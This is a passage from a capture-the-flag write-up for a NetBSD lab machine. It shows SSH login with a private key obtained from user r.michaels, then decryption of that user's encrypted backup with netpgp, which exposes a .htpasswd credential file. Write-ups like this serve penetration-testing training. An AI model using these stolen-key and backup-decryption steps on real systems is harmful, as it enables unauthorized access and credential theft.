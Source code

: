 ```
sh4ck@kali:~/Desktop/Luanne$ vi id_rma
sh4ck@kali:~/Desktop/Luanne$ chmod 600 id_rma 
sh4ck@kali:~/Desktop/Luanne$ ssh -i id_rma r.michaels@10.10.10.218
The authenticity of host '10.10.10.218 (10.10.10.218)' can't be established.
ECDSA key fingerprint is SHA256:KB1gw0t+80YeM3PEDp7AjlTqJUN+gdyWKXoCrXn7AZo.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.218' (ECDSA) to the list of known hosts.
Last login: Mon Nov 30 11:28:44 2020 from 10.10.14.57
NetBSD 9.0 (GENERIC) #0: Fri Feb 14 00:06:28 UTC 2020

Welcome to NetBSD!

luanne$
luanne$ ls -la
total 52
dr-xr-x---  7 r.michaels  users   512 Sep 16 18:20 .
drwxr-xr-x  3 root        wheel   512 Sep 14 06:46 ..
-rw-r--r--  1 r.michaels  users  1772 Feb 14  2020 .cshrc
drwx------  2 r.michaels  users   512 Nov 30 07:48 .gnupg
-rw-r--r--  1 r.michaels  users   431 Feb 14  2020 .login
-rw-r--r--  1 r.michaels  users   265 Feb 14  2020 .logout
-rw-r--r--  1 r.michaels  users  1498 Feb 14  2020 .profile
-rw-r--r--  1 r.michaels  users   166 Feb 14  2020 .shrc
dr-x------  2 r.michaels  users   512 Sep 16 16:51 .ssh
dr-xr-xr-x  2 r.michaels  users   512 Nov 24 09:26 backups
dr-xr-x---  4 r.michaels  users   512 Sep 16 15:02 devel
dr-x------  2 r.michaels  users   512 Sep 16 16:52 public_html
-r--------  1 r.michaels  users    33 Sep 16 17:16 user.txt
```
## Privilege Escalation

### NetBsd Enumeration

I started with basic enumeration and found encrypted backup under backups folder. I made some research about encryption on NetBsd and found a way to decrypt backup:

```
luanne$ netpgp --decrypt devel_backup-2020-09-16.tar.gz.enc --output=/tmp/devel_backup-2020-09-16.tar.gz
signature  2048/RSA (Encrypt or Sign) 3684eb1e5ded454a 2020-09-14 
Key fingerprint: 027a 3243 0691 2e46 0c29 9f46 3684 eb1e 5ded 454a 
uid              RSA 2048-bit key <r.michaels@localhost>
luanne$ cd /tmp/                                                                                                                                                                                                                          
luanne$ ls -la
total 20
drwxrwxrwt   2 root        wheel    48 Nov 30 14:28 .
drwxr-xr-x  21 root        wheel   512 Sep 16 22:05 ..
-rw-------   1 r.michaels  wheel  1639 Nov 30 14:28 devel_backup-2020-09-16.tar.gz
luanne$ tar -zxvf devel_backup-2020-09-16.tar.gz                                                                                                                                                                                          
x devel-2020-09-16/
x devel-2020-09-16/www/
x devel-2020-09-16/webapi/
x devel-2020-09-16/webapi/weather.lua
x devel-2020-09-16/www/index.html
x devel-2020-09-16/www/.htpasswd
```
Onto decrypted file i saw a `.htpasswd` file.   
```
```